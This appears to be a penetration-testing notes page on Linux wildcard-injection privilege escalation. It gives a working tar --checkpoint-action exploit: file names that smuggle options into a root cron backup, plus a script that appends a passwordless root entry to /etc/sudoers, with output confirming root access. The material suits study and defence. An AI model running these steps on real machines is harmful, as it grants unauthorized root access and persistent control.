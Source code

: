 --- ---

<h2>General</h2>

Wildcard vulnerabilities refer to a type of security vulnerability that occurs when a user or an application uses a wildcard character, such as an asterisk `(*)`, in a file path or command without properly validating the input. This can allow an attacker to manipulate the wildcard to access or execute unintended files or commands, potentially leading to privilege escalation or other security issues.

A wildcard character can be used as a replacement for other characters and are interpreted by the shell before other actions. Examples of wild cards include:
| character | Signification |
| --------- | ------------- |
| *         |      An asterisk that can match any number of characters in a file name.         |
| ?         |            Matches a single character.   |
| []        |     Brackets enclose characters and can match any single one at the defined position.          |
| ~         |            A tilde at the beginning expands to the name of the user home directory or can have another username appended to refer to that user's home directory.   |
| -          |    A hyphen within brackets will denote a range of characters.           |

To prevent wildcard vulnerabilities, it is important to carefully validate user input and ensure that it does not contain wildcards or other potentially harmful characters. It is also a good idea to use strict permissions on system files and directories to prevent unauthorized access.

Example of vulnerability
	Imagine that there is a bash script on a Linux machine that copies files from one directory to another as part of a backup process. The script takes a single argument, which is the path of the source directory. However, the script does not properly validate the input and allows wildcard characters, such as the asterisk (*).
	ㅤ
	An attacker could manipulate the input to include a wildcard, such as "*", which would match all files in the current directory. If the script is run from a directory with sensitive files, the attacker could use the wildcard to copy all of the files in the directory, potentially leading to data leakage or other security issues.

---

<h2>Commands</h2>

Example of abusing the "tar" command

1. Looking at the man page
```
man tar

<SNIP>
Informative output
--checkpoint[=N]
Display progress messages every Nth
record (default 10).
--checkpoint-action=ACTION
Run ACTION on each checkpoint.
```

- The --checkpoint-action option permits an EXEC action to be executed when a checkpoint is reached (i.e., run an arbitrary operating system command once the tar command executes.) By creating files with these names, when the wildcard is specified, --checkpoint=1 and --checkpoint-action=exec=sh root.sh is passed to tar as command-line options.

2. Example cron job
```
#
#
mh dom mon dow command
*/01 * * * * cd /tmp && tar -zcf
/tmp/backup.tar.gz *
```

- Consider the following cron job, which is set up to back up the /root directory's contents and create a compressed archive in /tmp. The cron job is set to run every minute, so it is a good candidate for privilege escalation.

3. Leverage wildcard to write out the commands as file names to be executed
```
echo 'echo "cliff.moore ALL=(root) NOPASSWD: ALL" >> /etc/sudoers' > root.sh
echo "" > "--checkpoint-action=exec=sh root.sh"
echo "" > --checkpoint=1
```

4. When the cron job runs again, check for the newly added permissions
```
sudo -l

Matching Defaults entries for cliff.moore on NIX02:
env_reset, mail_badpass,
secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User cliff.moore may run the following commands on NIX02:
(root) NOPASSWD: ALL
```